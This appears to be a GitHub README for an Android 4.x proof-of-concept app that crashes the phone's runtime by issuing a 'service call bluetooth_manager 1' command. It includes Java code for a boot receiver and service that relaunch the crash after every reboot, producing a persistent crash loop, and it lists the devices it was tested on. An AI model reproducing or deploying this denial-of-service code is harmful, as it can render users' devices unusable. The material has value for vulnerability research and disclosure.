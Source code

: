 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager.

**WARNING:** This application causes your Android 4.x device to crash 15 seconds after startup as well as 15 seconds after each reboot. Do not run this application without the delay in `MainActivity`. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`
- `BootReceiver`, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
    Intent serviceIntent = new Intent(context, Crash.class);
    context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity` 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device   |   OS   | Rooted | Runtime |
| ---------- |:------:|:------:|:-------:|
| Nexus 5    | 4.4.2  | ✓      | ART     |
| Moto X     | 4.4.3  | x      | ART     |
| Nexus 5    | 4.4.3  | ✓      | ART     |
